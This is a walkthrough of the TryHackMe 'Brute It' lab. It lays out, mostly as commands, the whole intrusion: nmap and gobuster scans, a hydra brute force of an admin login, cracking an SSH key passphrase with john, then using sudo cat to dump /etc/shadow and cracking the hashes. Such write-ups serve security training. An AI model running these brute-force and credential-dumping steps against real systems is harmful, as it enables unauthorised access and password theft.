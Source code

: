 # Brute It

**Room Link:** [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V
```

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa 
ssh -i id_rsa john@$VICTIM
pass: rockinroll
```



john can run cat as root, we can just use this to read root.txt but I decided to read the shadow file which I can't do from johns account, then send shadow and passwd files back to Kali to crack.

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
LFILE=/etc/shadow
sudo cat "$LFILE"
```

**Kali**

```
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>











